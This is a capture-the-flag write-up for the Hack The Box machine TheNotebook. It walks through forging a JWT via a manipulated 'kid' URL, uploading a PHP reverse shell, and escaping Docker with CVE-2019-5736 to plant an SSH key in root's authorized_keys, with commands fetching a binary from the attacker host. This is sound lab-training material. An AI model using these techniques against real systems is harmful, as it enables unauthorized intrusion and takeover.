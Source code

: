 # TheNotebook

This is the write-up for the box TheNotebook that got retired at the 31st July 2021.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.230   thenotebook.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/thenotebook.nmap 10.10.10.230
```

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
|_http-server-header: nginx/1.14.0 (Ubuntu)
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service is a custom-developed website with the option to _register_ and _login_.
When trying to login with _admin_, it shows an error message if a user exists or not, which can be used to enumerate usernames:
```
# Username does exist
Login Failed! Reason: Incorrect Password

# Username does not exist
Login Failed! Reason: User doesn't exist.
```

After registering a user, it shows a message that they can be accessed on _/notes_.
On there it is possible to add a title and contents for a note.

It forwards to a generated directory _/dee51418-9e3e-47fe-925e-2a1de64e7ebe/notes_ while the directory _/notes_ cannot be found.
The cookies also show this string in the value for _uuid_ and another cookie _auth_ with a **JSON Web Token (JWT)**:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InR(...)
```

The token consists of three different parts separated by a dot symbol and can be decoded with **Base64**:
```
echo eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9 | base64 -d

{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}
```
```
echo eyJ1c2VybmFtZSI6InRlc3QxIiwiZW1haWwiOiJ0ZXN0MUB0ZXN0LmxvY2FsIiwiYWRtaW5fY2FwIjowfQ | base64 -d

{"username":"test1","email":"test1@test.local","admin_cap":0}
```

The third part is the signature, which does not display anything readable.

The value _admin_cap_ seems to define if a user has administrative capabilities, so we need to set it to 1 to gain privileged access.
To change that, it has to be signed with a valid public and private key.

It seems to get that information from the service on port 7070 on localhost, so lets proof that by changing the IP to our client:
```
echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.5:7070/privKey.key"}' | base64 -w 0

eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC41OjcwNzAvcHJpdktleS5rZXkifQo
```

After replacing the string and sending the token to the server, it sends a request to our **Netcat** listener on port 7070:
```
Ncat: Connection from 10.10.10.230.
GET /privKey.key HTTP/1.1
Host: 10.10.14.5:7070
User-Agent: python-requests/2.25.1
(...)
```

Creating our own private key to sign the JWT:
```
ssh-keygen -t rsa -b 5096 -m PEM -f jwtRS256.key
```
```
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
```

The signatures and the changes can be done with [jwt.io](https://jwt.io/):

![Generating token on jwt.io](thenotebook_jwt-1.png)

Creating a symbolic link from the new key to the name _privKey.key_:
```
ln -s jwtRS256.key privKey.key
```

Starting a web server on port 7070:
```
python3 -m http.server 7070
```

After replacing the JWT token in the web application with our generated one, it will connect to our webserver on port 7070 and validate the token.
This token has _admin_cap_ set to 1 and there is a new menu called _Admin Panel_ on _/admin_.

On the admin panel it is possible to view all notes and to upload files:

![Features of admin panel](thenotebook_web-1.png)

Another potential username is _noah_ and there is a note from the admin of a security issue:
```
Have to fix this issue where PHP files are being executed :/. This can be a potential security issue for the server.
```

Lets use the upload feature to upload _php-reverse-shell.php_ from the **Laudanum scripts** to gain a reverse shell connection.
It gets uploaded with a random string in the name and can be found in the root directory:
```
http://10.10.10.230/881426a1bbba7c5a05723d01267a120a.php
```

After browsing there, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

After enumerating the file system and checking timestamps, this box was created around mid of February, so files can be searched that were written in that timespan:
```
find / -newermt "2021-02-12" ! -newermt "2021-02-19" 2>/dev/null | grep -v '/etc\|/var/lib\|/sys\|/proc\|/boot\|/lib\|/usr'
```

The file _/var/backups/home.tar.gz_ looks interesting, so lets move it to _/tmp_ and decompress it:
```
cp home.tar.gz /tmp/
cd /tmp
tar -xzvf home.tar.gz
```

It contains the files of the home folder of _noah_ and in _/.ssh_ is a private SSH key that can be copied and used to login as this user:
```
ssh -i noah.key noah@10.10.10.230
```

### Privilege Escalation to root

The user _noah_ can run a **Docker** command with root privileges:
```
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

In the Docker container is the file _privKey.key_, so this is the service on port 7070, but there is nothing interesting in there.
The command `docker -v` shows that it runs [Docker version 18.06.0](https://docs.docker.com/engine/release-notes/18.06/) and this version was released in 2018 and has vulnerabilities.

It is affected by the critical vulnerability **CVE-2019-5736** which has [PoC code on GitHub](https://github.com/Frichetten/CVE-2019-5736-PoC).

Creating an SSH key:
```
ssh-keygen -f notebook
```

Modifying the payload so it will upload our SSH key into the _/root/.ssh_ folder of the box:
```
(...)
var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB(...)' > /root/.ssh/authorized_keys" + shellCmd
(...)
```

Compiling the code into a binary:
```
go build cve-2019-5673.go
```

Starting a shell in the container:
```
sudo /usr/bin/docker exec -it webapp-dev01 sh
```

Downloading the binary from our local client into the container:
```
# wget 10.10.14.5:8000/cve-2019-5673
```

Changing permissions to make it executable:
```
# chmod +x cve-2019-5673
```

Executing the binary:
```
# ./cve-2019-5673
```
```
[+] Overwritten /bin/sh successfully
(...)
[+] The command executed is#!/bin/bash
mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ(...)' > /root/.ssh/authorized_keys
```

The exploit will write our SSH key into the _authorized_keys_ and it is possible to log in as root!
```
ssh -i notebook root@10.10.10.230
```
